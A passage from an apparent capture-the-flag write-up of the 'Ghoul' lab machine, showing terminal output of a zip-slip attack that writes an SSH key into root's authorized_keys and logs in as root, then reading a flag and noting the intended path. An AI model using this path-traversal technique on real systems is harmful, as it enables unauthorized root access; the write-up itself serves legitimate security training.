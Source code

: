 ```

root@kali# ./ghoul_shell.sh 
[*] Creating ssh key pair
[*] Creating zipslip zip with public key as authorized_keys
Archive:  /tmp/tmp.Q8VNxuFb46/z.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      391  2019-05-24 04:19   ../../../../../../../../../../root/.ssh/authorized_keys
---------                     -------
      391                     1 file
[*] Uploading zip to Ghoul
[+] zip uploaded successfully
[*] Connecting to Ghoul over SSH as root
Last login: Fri May 24 07:06:12 2019 from 10.10.14.3
root@Aogiri:~# 

```

### user.txt

From there, I can find `user.txt` in kaneki’s homedir:

```

root@Aogiri:/home/kaneki# ls 
note.txt  notes  secret.jpg  user.txt
root@Aogiri:/home/kaneki# cat user.txt 
7c0f1104...

```

### Note About Intended Path

It turns out that getting root on Aogiri was not part of the intended path through this box. The next step was supposed to be from www-data to kaneki, and then pivot from there. `tomcat` was not supposed to be running as root.

I actually really liked the path of using the same vuln twice, and it’s how I solved it, so that’s what I showed here. The intended path was the use the ssh key that I’ll break in the next section to ssh in as kaneki, get `user.txt`, and proceed from there. There was no need to get root on this container.

## Pivot to kaneki-pc

### Enumeration

#### Notes

There’s a few text files I can now access that.

`/home/kaneki/note.txt`:

```

Vulnerability in Gogs was detected. I shutdown the registration function on our server, please ensure that no one gets access to the test accounts.

```
